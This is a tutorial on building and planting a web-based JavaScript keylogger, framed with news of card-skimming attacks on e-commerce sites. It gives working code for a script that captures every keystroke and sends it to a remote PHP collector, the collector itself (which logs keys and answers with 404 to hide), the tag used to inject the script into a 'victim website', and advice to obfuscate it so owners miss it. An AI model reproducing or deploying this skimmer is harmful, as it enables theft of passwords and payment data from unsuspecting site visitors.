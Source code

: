 ## How to Create a Web-Based Javascript Keylogger

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/9413d1b630dae0d9cf183e8276046447-1920x1080.jpg "Thumbnail")

Researchers estimate thousands of e-commerce sites are under attack by a single threat actor that has infected servers with a web-based keylogger. Popular e-commerce sites infected with web-based keyloggers are being used to steal credit card data as it's entered into online checkout forms. More than 100 compromised sites have been identified, but the number could be in the thousands.

**Source:** [threatpost.com](https://threatpost.com/web-based-keylogger-used-to-steal-credit-card-data-from-popular-sites/121141/)

* * *

###### WHAT WE CAN DO WITH A KEYLOGGER?

Keylogger is a type of software that once active on a system, can record every keystroke made by the system. All the recorded keystroke is saved in a log file. A keylogger can record a message, email, and capture any type of information you type at any time using your keyboard.

* * *

###### WHO USES A KEYLOGGER?

A keylogger is a surveillance tool, used by employers to ensure employees use work computers for business purposes only. There's also a growing market for parents who want to use these tools to stay informed about a child's online activities. But nowadays these tools are used by a hacker for hacking email ids and confidential information of the user like password Social Security number, Credit Card, etc ... This is one of the easiest ways of extracting critical information by tricking people.

* * *

###### HOW IT WORKS ?

Below is an example for a simple web-based keylogger, In this documentation, you will know how keylogger works, type of programming by which we record and monitor every keystroke typed by the user on a website.

* * *

###### CREATE THE KEYLOGGER

First of all, we have to create an environment for practical and follow the steps which we mention in the details below.

**Create HTML Form**

```html
<form action="#">
    <label>Firstname:</label>
    <input type="text" name="firstname" placeholder="Mickey" style="width:250px">
    <label>Lastname:</label>
    <input type="text" name="lastname" placeholder="Mouse" style="width:250px">
    <label>Message:</label>
    <textarea name="message" style="width:500px;height:100px;"></textarea>
    <input type="submit" value="Submit">
</form>
```

This HTML form is for the unique purpose to demonstrate how a web-based keylogger works.

**Create JS Keylogger file - keylogger.js**

```js
if((window.jQuery))
{
    console.log("jQuery Found");
}
else
{
    console.log("jQuery Not Found");
    var script = document.createElement('script');
    script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
    document.body.appendChild(script);
}

function c(d)
{
    jQuery.ajax(
    {
        dataType: "jsonp",
        type:"GET",
        url: "https://example.com/keylogger.php",
        jsonp:"keypressed",
        data:
        {
            altnKey:d.altKey?1:0,
            ctrlKey:d.ctrlKey?1:0,
            userKey:d.key,
            targKey:d.target.id,
            userURI:d.target.baseURI
        },
        async:false,
        success: function(data)
        {
            console.log(data);
        },
        error:function(xhr, ajaxOptions, thrownError)
        {
            console.log("Error");
        }
    });
}

window.onload = function()
{
    window.addEventListener("keydown", function(e)
    {
        c(e);
    });
}
```

The above code in JavaScript can be injected directly to the victim website or can be hosted remotely. The purpose of this code is to grab the keystroke of the user and send it to a remote server. Please be sure to replace "https://example.com/keylogger.php" with the real URL of your PHP file.

To save time we are going to do it with jQuery. So to avoid any errors the first thing we do is make sure that jQuery is present on the victim page, and load it in case we didn't found it.

We declare a function "**c**", where the parameter "**d**" which will be the keypress. This function will have an Ajax call to the PHP file that receives the keystrokes.

**Create PHP Keylogger file - keylogger.php**

```php
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');

$file = 'data.txt';
if(!file_exists($file))
{
    $fh = fopen($file, 'w');
}

function f($str)
{
    return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey=(int)$_GET['altnKey'];
$ctrlKey=(int)$_GET['ctrlKey'];
$userKey=f($_GET['userKey']);
$targKey=f($_GET['targKey']);
$userURI=f($_GET['URI']);

$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI."\n";
file_put_contents($file, $string, FILE_APPEND);
```

The server part is in PHP. There is nothing to explain about the above code, the purpose of the PHP file is to receive the keystroke value transferred in Ajax by the JavaScript and store it in a simple text file. The "keylogger.php" must be hosted to a remote server and the full file URL must be specified in the "keylogger.js" file.

You can adapt the above code to match your exact needs. For example, you maybe would like to save the results directly to a database or either send it to an e-mail address.

**Inject the JS file**

Now that we are ready with our file, we must inject the JavaScript on our victim website. To do it, we will add the below line of code at the end of our HTML file. In a real situation, you must add this line between the tags. Please be sure to replace "https://example.com/keylogger.js" with the real URL of your JS file.

```html
<script type="text/javascript" src="https://example.com/keylogger.js"></script>
```

* * *

###### JAVASCRIPT OBFUSCATION

We can move further, using an [obfuscation](https://javascriptobfuscator.com) online tool to hide our JavaScript code and avoid the website owner to detect the keylogger at first sight.

